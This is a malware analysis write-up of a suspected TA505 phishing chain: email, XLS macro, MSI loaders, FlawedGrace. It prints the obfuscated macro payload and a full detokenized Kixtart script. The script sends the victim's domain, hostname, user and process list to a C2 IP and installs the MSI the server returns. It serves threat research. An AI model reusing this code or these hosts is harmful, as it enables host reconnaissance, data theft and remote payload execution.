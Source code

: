# Summary
Suspected TA505 Phish
Attack flow:
Phish -> HTML attachment /w link -> XLS /w macro -> MSI (Kixtart) -> MSI (Rebol) -> FlawedGrace

# Email
Sender: 	admin@commaxdiafon.com
Subject:  	Claim Processing 20210925
Received: 	from 196-60win.webimhosting.com (HELO webimhosting.com) ([217.195.196.60])

Contains an html attachment which contains a link to download a malicious XLS hxxps://cdn-8846-sharepoint-office.com/CL09302021_00137[.]xls 

# XLS (deaad3ea1c708cd99e41c4043169aa4d)
	- Macro
		Function Auto_Open()
			Dim a As New ScriptControl
			a.Language = ActiveWorkbook.BuiltinDocumentProperties("Subject").Value
			a.AddCode (ActiveWorkbook.BuiltinDocumentProperties("Comments").Value)
		End Function
		
	- Comments: eval('})"53.502.831.551//:ptth"(tcudorPllatsnI;2=leveLIU{))"rellatsnI.rellatsnIswodniW"(tcejbOXevitcA wen(htiw'.split('').reverse().join(''))
	- Reversed: with(new ActiveXObject("WindowsInstaller.Installer")){UILevel=2;InstallProduct("hxxp://155.138.205.35")}
	
	- Pulls down and executes MSI 

# MSI (84ec41afdc49c2ee8dff9ba07ba5c9a4)
	- contains benign kixtart engine (named svchost.exe) and an encrypted and tokenized kixtart script (named svchost.bin)
	
# Kixtart Script (a176738655f7bd7270aa086db0f35451)
	- Encrypted and tokenized 
	- Developed a python script to decrypt and detokenize: https://github.com/jhumble/Kixtart-Detokenizer
	- Full cleaned up kixtart script below
	
I wasn't able to coerce the C2 into giving me an additional payload, but other reporting indicates that it leads to another MSI containing a Rebol script, which downloads and executes FlawedGrace

Detokenized script:

```Function base64($string,$mode,$file)
	DIM $xml_object,$xml_doc,$stream_object,$strxml,$rc
	$xml_object =  createobject("MSXML2.DOMDocument.3.0") 
	if $mode
		$strxml = "<B64DECODE xmlns:dt="urn:schemas-microsoft-com:datatypes" dt:dt="bin.base64">" + $string + "</B64DECODE>"
		$rc = $xml_object.loadxml($strxml) 
		$base64 = $xml_object.selectsinglenode("B64DECODE") .nodetypedvalue
		if @errorexit (@error & )  endif 
		if $file
			$stream_object =  createobject("ADODB.Stream") 
			if @errorexit (@error & )  endif 
			$rc = $stream_object.open
			if @errorexit (@error & )  endif 
			$stream_object.type = 1
			$rc = $stream_object.write($base64) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
			$stream_object.savetofile($file,2) 
			exit (@error & ) 
		endif 
	else
		$stream_object =  createobject("ADODB.Stream") 
		if @errorexit (@error & )  endif 
		$rc = $stream_object.open
		if @errorexit (@error & )  endif 
		if  len($file)  and 0 =  exist($file) exit 2 endif 
		if $file
			$stream_object.type = 1
			$stream_object.loadfromfile($file) 
			if @errorexit (@error & )  endif 
		else
			$stream_object.type = 2
			$stream_object.charset = "iso-8859-1"
			$rc = $stream_object.writetext($string) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
		endif 
		$string = $stream_object.read
		$xml_doc = $xml_object.createelement("base64") 
		$xml_doc.datatype = "bin.base64"
		$xml_doc.nodetypedvalue = $string
		$base64 =  cstr($xml_doc.text) 
		$stream_object = ""
		$xml_doc = ""
		$xml_object = ""
	endif 
EndFunction

$wmicoll =  getobject("WinMgmts:root/cimv2") .execquery("Select * FROM Win32_Process") 

For each $wmiobj in $wmicoll
	$proccess = $proccess + "," + $wmiobj.name
Next

$http =  createobject("microsoft.xmlhttp") 
$http.open("GET","http://45.79.239.23/version.php?data=" + base64(@domain + ":" + @hostname + ":" + @userid + "|" + $proccess) ,Not 1) 
$http.send

if $http.responsebody <> 0
	$msi =  createobject("WindowsInstaller.Installer") 
	$msi.uilevel = 2
	$msi.installproduct($http.responsetext) 
endif```


